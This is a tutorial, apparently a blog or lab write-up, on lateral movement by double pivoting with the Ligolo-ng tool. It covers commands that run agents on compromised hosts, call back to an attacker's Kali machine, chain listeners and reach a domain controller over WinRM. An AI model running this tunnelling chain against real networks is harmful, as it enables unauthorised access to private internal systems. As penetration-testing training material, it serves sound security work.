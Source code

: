## Lateral Movement — Double Pivoting with Ligolo-ng

![image](https://github.com/user-attachments/assets/d0ca8269-111b-4d38-8fca-6d994d1bb1c1)

### Summary
Hello everyone! In this article, I will discuss how to perform double pivoting using Ligolo-ng. I have previously covered this tool in another article, which you can check out [here]. If you’re unfamiliar with Ligolo-ng, I recommend reading my previous article for a better understanding. This discussion will focus solely on the practical implementation.

### infrastructure
The external network is on the 192.168.0.0/24 subnet, followed by the internal network on 10.10.10.0/24. Lastly, there is a private network where DC01 (Primary Domain Controller) resides. Our goal is to access this private network from our Kali Machine.

![image](https://github.com/user-attachments/assets/fd543f3a-c77e-4e32-8cfb-7c2f8bca73c8)

---
### First Pivoting
All we need here is access to WS01 to upload the ligolo-ng agent for use, you can follow these steps!

Running Proxy Server on Kali Machine

```bash
proxy -selfcert
```

by default the proxy server will run on port 11601, and on the victim side or WS01 we can run the following command.

```bash
.\agent.exe -connect <kali-ip>:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/44438c70-e5bc-4554-bad8-5841987a05c8)

![image](https://github.com/user-attachments/assets/f54b20df-2f43-4105-9788-d9527bd8e0e0)

seen in this picture we have successfully pivoted to the internal network namely 10.10.10.0/24


---

### Second Pivot
To do double pivoting we need to set a listener on the WS01 machine through this ligolo-ng tool, so simply WS01 will open port 11601 and when someone connects to that port it will be redirected to Kali Machine, you can follow these steps.

![image](https://github.com/user-attachments/assets/ce16d446-bb1f-4348-b81f-09d4afd6ebf5)

Before that, first set the tun interface for the double Pivot


```bash
[Agent@WS01] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

![image](https://github.com/user-attachments/assets/8d54264e-95e1-4f6d-b7bb-d70ee2378906)

to make sure you can use the “listener_list” command


Once the listener and interface are set up for double pivoting, we can proceed by uploading agent.exe to DC02, which has both internal and private network interfaces.

```bash
.\agent.exe -connect <WS01-ip>:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/51a3adb7-4838-4a22-86f0-7f1e98764377)

And successfully connect


![image](https://github.com/user-attachments/assets/c75fa87a-7e54-4696-a703-ee8b399488d4)

and here the ligolo-ng session from agent DC02 successfully entered the server


![image](https://github.com/user-attachments/assets/af243136-7ea6-4e22-ae05-79062201dd3a)


![image](https://github.com/user-attachments/assets/4ca11e3a-b28d-470d-b092-57ca1ef7bdd4)

before starting to pivot we need to first configure the interface or add a route to the private ip

---
### Start Double Pivoting

```bash
[Agent@DC02]> tunnel_start --tun ligolo-double
```

![image](https://github.com/user-attachments/assets/14f2965b-d7ce-4892-9659-d88810e72166)

And we managed to access DC01 on the Private Network


![image](https://github.com/user-attachments/assets/2fbd0b49-e51f-4358-867e-169e76890ca3)

Access To WinRm

---
### Conclusions
We will configure a port redirector on WS01, which acts as an intermediary. When a connection request is made to the designated port on WS01, it will seamlessly forward the traffic to our local proxy server, effectively routing external access through our controlled pathway.

![image](https://github.com/user-attachments/assets/fdbf3119-f4db-4171-aa89-7dcad98a310e)


thank you for reading from beginning to end, if there are errors, please help correct them in the comments and see you.